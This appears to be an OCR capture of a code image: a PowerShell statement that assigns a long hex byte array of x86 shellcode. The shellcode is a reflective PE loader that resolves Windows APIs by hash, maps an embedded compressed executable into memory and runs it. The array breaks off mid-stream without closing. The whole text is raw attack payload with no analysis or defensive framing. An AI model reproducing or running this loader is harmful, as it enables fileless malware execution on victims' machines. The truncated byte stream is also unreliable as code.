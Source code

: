 [Byte[]] $s =
@(0x51,0x53,0x55,0x56,0x57,0x33,0xff,0xe8,0xbb,0x00,0x00,0x00,0x8b,0xf0,0x68,0xfe,0x6a,0x7a,0x69,0xe8,0xca,0x00,0x00,0x00,0x8b,0xe8,0xc7,0x04,0x24,0x5f,0x70,0x35,0x3a,0xe8,0xbc,0x00,0x00,0x00,0x59,0x89,0x44,0x24,0x10,0xba,0x00,0x10,0x00,0x00,0xe8,0x15,0x01,0x00,0x00,0x4a,0x81,0x38,0xbe,0xba,0xad,0xab,0x8b,0xc8,0x75,0x09,0x81,0x78,0x04,0x0d,0xf0,0xad,0x8b,0x74,0x05,0x40,0x85,0xd2,0x75,0xe7,0x8b,0x41,0x08,0x8d,0x71,0x0c,0xbb,0x00,0x30,0x00,0x00,0x85,0xc0,0x79,0x1a,0x6a,0x04,0x53,0x25,0xff,0xff,0xff,0x7f,0x50,0x6a,0x00,0xff,0xd5,0x8b,0xf8,0x57,0x56,0xe8,0x35,0x02,0x00,0x00,0x59,0x59,0x8b,0xf7,0x8b,0x46,0x3c,0x6a,0x40,0x53,0x03,0xc6,0xff,0x70,0x50,0x6a,0x00,0xff,0xd5,0x8b,0xd8,0x56,0x53,0xe8,0xbf,0x00,0x00,0x00,0x59,0x59,0x8b,0xd3,0xe8,0x03,0x01,0x00,0x00,0xe8,0x6c,0x01,0x00,0x00,0x85,0xff,0x74,0x0c,0x68,0x00,0x80,0x00,0x00,0x6a,0x00,0x57,0xff,0x54,0x24,0x1c,0x8b,0x43,0x3c,0x8b,0x44,0x18,0x28,0x6a,0x00,0x6a,0x01,0x53,0x03,0xc3,0xff,0xd0,0x5f,0x5e,0x5d,0x33,0xc0,0x5b,0x59,0xc2,0x04,0x00,0x64,0xa1,0x30,0x00,0x00,0x00,0x8b,0x40,0x0c,0x8b,0x40,0x1c,0xeb,0x02,0x8b,0x00,0x66,0x83,0x78,0x1c,0x18,0x75,0xf7,0x8b,0x40,0x08,0xc3,0x55,0x8b,0xec,0x51,0x8b,0x46,0x3c,0x8b,0x4c,0x30,0x78,0x83,0x65,0xfc,0x00,0x03,0xce,0x83,0x79,0x18,0x00,0x53,0x57,0x76,0x2f,0x8b,0x79,0x20,0x03,0xfe,0x8b,0x07,0x33,0xdb,0x03,0xc6,0xeb,0x09,0x0f,0xbe,0xd2,0xc1,0xc3,0x07,0x33,0xda,0x40,0x8a,0x10,0x84,0xd2,0x75,0xf1,0x3b,0x5d,0x08,0x74,0x14,0xff,0x45,0xfc,0x8b,0x45,0xfc,0x83,0xc7,0x04,0x3b,0x41,0x18,0x72,0xd6,0x33,0xc0,0x5f,0x5b,0xc9,0xc3,0x8b,0x41,0x24,0x8b,0x55,0xfc,0x8b,0x49,0x1c,0x8d,0x04,0x50,0x0f,0xb7,0x04,0x30,0x8d,0x04,0x81,0x8b,0x04,0x30,0x03,0xc6,0xeb,0xe2,0x8b,0x04,0x24,0xc3,0x53,0x56,0x8b,0x74,0x24,0x10,0x8b,0x46,0x3c,0x03,0xc6,0x0f,0xb7,0x48,0x14,0x8d,0x54,0x01,0x18,0x8b,0x4a,0x14,0x57,0x8b,0x7c,0x24,0x10,0xf3,0xa4,0x33,0xc9,0x33,0xdb,0x66,0x3b,0x48,0x06,0x73,0x22,0x0f,0xb7,0xcb,0x6b,0xc9,0x28,0x03,0xca,0x8b,0x71,0x14,0x8b,0x79,0x0c,0x03,0x74,0x24,0x14,0x03,0x7c,0x24,0x10,0x8b,0x49,0x10,0x43,0xf3,0xa4,0x66,0x3b,0x58,0x06,0x72,0xde,0x5f,0x5e,0x5b,0xc3,0x8b,0x4a,0x3c,0x03,0xca,0x8b,0x81,0xa0,0x00,0x00,0x00,0x85,0xc0,0x74,0x5e,0x56,0x8b,0xf2,0x03,0xc2,0x2b,0x71,0x34,0x74,0x53,0x8b,0x48,0x04,0x85,0xc9,0x74,0x4c,0x57,0x83,0xc1,0xf8,0x33,0xff,0xf7,0xc1,0xfe,0xff,0xff,0xff,0x76,0x33,0x66,0x8b,0x4c,0x78,0x08,0x66,0xc1,0xe9,0x0c,0x66,0x83,0xf9,0x03,0x74,0x06,0x66,0x83,0xf9,0x0a,0x75,0x11,0x0f,0xb7,0x4c,0x78,0x08,0x81,0xe1,0xff,0x0f,0x00,0x00,0x03,0x08,0x03,0xca,0x01,0x31,0x8b,0x48,0x04,0x83,0xe9,0x08,0x47,0xd1,0xe9,0x3b,0xf9,0x72,0xcd,0x03,0x40,0x04,0x8b,0x48,0x04,0x85,0xc9,0x75,0xb6,0x5f,0x5e,0xc3,0x55,0x8b,0xec,0x8b,0x43,0x3c,0x03,0xc3,0x8b,0x80,0x80,0x00,0x00,0x00,0x83,0xec,0x10,0x85,0xc0,0x0f,0x84,0x81,0x00,0x00,0x00,0x56,0x57,0x8d,0x3c,0x18,0xe8,0x9b,0xfe,0xff,0xff,0x8b,0xf0,0x68,0x26,0x80,0xac,0xc8,0xe8,0xaa,0xfe,0xff,0xff,0x89,0x45,0xf0,0xc7,0x04,0x24,0xee,0xea,0xc0,0x1f,0xe8,0x9b,0xfe,0xff,0xff,0x59,0x89,0x45,0xf4,0xeb,0x4e,0x8b,0x47,0x0c,0x03,0xc3,0x50,0xff,0x55,0xf0,0x89,0x45,0xf8,0x85,0xc0,0x74,0x3b,0x8b,0x07,0x85,0xc0,0x75,0x03,0x8b,0x47,0x10,0x8b,0x77,0x10,0x03,0xc3,0x89,0x45,0xfc,0x03,0xf3,0xeb,0x20,0x79,0x07,0x25,0xff,0xff,0x00,0x00,0xeb,0x04,0x8d,0x44,0x18,0x02,0x50,0xff,0x75,0xf8,0xff,0x55,0xf4,0x83,0x45,0xfc,0x04,0x89,0x06,0x8b,0x45,0xfc,0x83,0xc6,0x04,0x8b,0x00,0x85,0xc0,0x75,0xda,0x83,0xc7,0x14,0x83,0x7f,0x10,0x00,0x75,0xac,0x5f,0x5e,0xc9,0xc3,0xcc,0xcc,0xcc,0x60,0x8b,0x74,0x24,0x24,0x8b,0x7c,0x24,0x28,0xfc,0xb2,0x80,0x31,0xdb,0xa4,0xb3,0x02,0xe8,0x6d,0x00,0x00,0x00,0x73,0xf6,0x31,0xc9,0xe8,0x64,0x00,0x00,0x00,0x73,0x1c,0x31,0xc0,0xe8,0x5b,0x00,0x00,0x00,0x73,0x23,0xb3,0x02,0x41,0xb0,0x10,0xe8,0x4f,0x00,0x00,0x00,0x10,0xc0,0x73,0xf7,0x75,0x3f,0xaa,0xeb,0xd4,0xe8,0x4d,0x00,0x00,0x00,0x29,0xd9,0x75,0x10,0xe8,0x42,0x00,0x00,0x00,0xeb,0x28,0xac,0xd1,0xe8,0x74,0x4d,0x11,0xc9,0xeb,0x1c,0x91,0x48,0xc1,0xe0,0x08,0xac,0xe8,0x2c,0x00,0x00,0x00,0x3d,0x00,0x7d,0x00,0x00,0x73,0x0a,0x80,0xfc,0x05,0x73,0x06,0x83,0xf8,0x7f,0x77,0x02,0x41,0x41,0x95,0x89,0xe8,0xb3,0x01,0x56,0x89,0xfe,0x29,0xc6,0xf3,0xa4,0x5e,0xeb,0x8e,0x00,0xd2,0x75,0x05,0x8a,0x16,0x46,0x10,0xd2,0xc3,0x31,0xc9,0x41,0xe8,0xee,0xff,0xff,0xff,0x11,0xc9,0xe8,0xe7,0xff,0xff,0xff,0x72,0xf2,0xc3,0x2b,0x7c,0x24,0x28,0x89,0x7c,0x24,0x1c,0x61,0xc3,0xbe,0xba,0xad,0xab,0x0d,0xf0,0xad,0x8b,0x00,0x8e,0x00,0x80,0x4d,0x38,0x5a,0x90,0x38,0x03,0x66,0x02,0x04,0x09,0x71,0xff,0x81,0xb8,0xc2,0x91,0x01,0x40,0xc2,0x15,0xc6,0xe0,0x09,0x1c,0x0e,0x1f,0xba,0xf8,0x00,0xb4,0x09,0xcd,0x21,0xb8,0x01,0x4c,0xc0,0x0a,0x54,0x68,0x69,0x73,0x20,0x0e,0x70,0x72,0x6f,0x67,0x67,0x61,0x6d,0x87,0x63,0x47,0x6e,0x1f,0x4f,0x74,0xe7,0x62,0x65,0xaf,0xcf,0x75,0x5f,0x98,0x69,0x06,0x44,0x4f,0x7e,0x53,0x03,0x6d,0x6f,0x64,0x65,0x2e,0x0d,0x89,0x0a,0x24,0xc2,0xb5,0x01,0xd0,0x50,0x45,0xc2,0x08,0x4c,0x01,0x05,0xbe,0xb8,0x0a,0x02,0x21,0x0b,0x01,0xe5,0xe4,0x4a,0x61,0x3c,0x4b,0x12,0x10,0x24,0x50,0x37,0xaa,0x0c,0x90,0x02,0x46,0x3a,0x47,0x42,0x24,0xb0,0x2d,0xe8,0x1f,0x4c,0x15,0x10,0xa4,0x38,0x8e,0x08,0x86,0x47,0x40,0x5b,0x46,0xc4,0x11,0xb8,0x51,0x0a,0xa0,0xa1,0xf4,0xc5,0x3b,0x44,0x06,0x6e,0xd9,0x98,0x06,0xa4,0x01,0xad,0x1f,0x40,0x2e,0x74,0x65,0x78,0xe7,0x11,0x34,0x3f,0x5c,0x91,0x40,0xa7,0xb8,0x23,0x01,0x18,0x20,0x06,0x60,0x2e,0x0e,0x72,0x64,0x61,0x74,0x58,0x12,0x96,0x0b,0xae,0xfc,0x65,0x0c,0x09,0x44,0x69,0x28,0xb9,0x77,0xa9,0x2e,0x27,0x38,0x19,0x58,0x29,0x0b,0x60,0x92,0x09,0x2a,0x2d,0x2c,0x0e,0x28,0x07,0xc0,0x2e,0x62,0x73,0x1a,0x0c,0x14,0x92,0x50,0x23,0x90,0x94,0x7a,0x28,0xac,0x72,0x08,0x65,0x6c,0x6f,0x63,0x09,0xe4,0x07,0x33,0x04,0x82,0x08,0x25,0x86,0x7c,0x28,0x42,0xe1,0x4e,0x01,0xfe,0xc0,0x33,0xc0,0xc3,0x55,0x8b,0x39,0xec,0x83,0x00,0x10,0x53,0x56,0x57,0x6a,0x03,0x5b,0x0c,0x8d,0x45,0xf4,0x50,0x08,0xfc,0x3b,0x33,0xff,0x3a,0x68,0xa6,0x95,0x38,0x0f,0x89,0x7d,0x79,0x06,0xf8,0x02,0xf4,0x01,0xf0,0xe8,0x1a,0x24,0xf3,0x85,0x0e,0xc0,0x75,0x0c,0xff,0x6f,0xfc,0x85,0x84,0x36,0x4f,0x0c,0x3c,0x25,0x10,0x3a,0x4f,0x09,0x30,0x24,0x39,0x3b,0x33,0x27,0x33,0x7c,0xf0,0x85,0xf8